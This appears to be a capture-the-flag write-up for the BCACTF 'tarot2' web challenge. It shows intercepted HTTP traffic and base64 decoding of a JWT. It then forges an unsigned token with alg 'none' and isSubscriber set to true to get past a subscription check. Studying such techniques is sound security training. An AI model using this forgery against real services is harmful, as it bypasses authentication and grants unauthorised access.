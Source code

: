 `$.get("checktoken")` looks like it checks our token when we load card.html
Therefore, we might be able to send a request to `/checktoken`.

By the looks of it, we want the respose to output `message` not a `1` or `0`


^ Else
intercept /checktoken in burp, and we can see that we are given a JWT

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Set-Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1ODd9.FeOzxBet7HJ3ry34my5cDjMnTY2zoRVjPlWAyiAHLS0; Path=/
Content-Length: 13
ETag: W/"d-7GJcIGGUJGnOf9xJz6VzjWdnGEo"
Date: Sat, 04 Jun 2022 19:17:57 GMT
Connection: close

{"message":0}
```
We get message = 0, and we can sense some direction.

We notice that  according to the format of JWT's the token only consists of `header.payload.x` Where the `x` represents the signature. 
[For more info about jwt](https://jwt.io/introduction)

Base64 decode the header and payload
```bash
┌──(kali㉿kali)-[~/…/bcactf3/web/tarot2/c-jwt-cracker]
└─$ echo eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0 | base64 -d                                                   
{"alg":"none","typ":"JWT"}base64: invalid input
                                                                                                                                       
┌──(kali㉿kali)-[~/…/bcactf3/web/tarot2/c-jwt-cracker]
└─$ echo eyJpc1N1YnNjcmliZXIiOmZhbHNlLCJpYXQiOjE2NTQzMDA1NzR9 | base64 -d
{"isSubscriber":false,"iat":1654300574}
```
We need to change `isSubscriber` to `true`

We can just use [JWT.io](jwt.io) 

jwt uses "`base64UrlEncode`", so remember to strip `=` from the token, if you dont use jwt.io and `base64 -d` instead or burp suite.

Append the cookie as an header to a request (/checktoken)
```
GET /checktoken HTTP/1.1
Host: web.bcactf.com:49201
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Cookie: token=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJpc1N1YnNjcmliZXIiOnRydWUsImlhdCI6MTY1NDMwMDU3NH0.
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://web.bcactf.com:49201/card.html
If-None-Match: W/"d-R2eoxnyopImzswz1XDToC/GK5Ec"

```
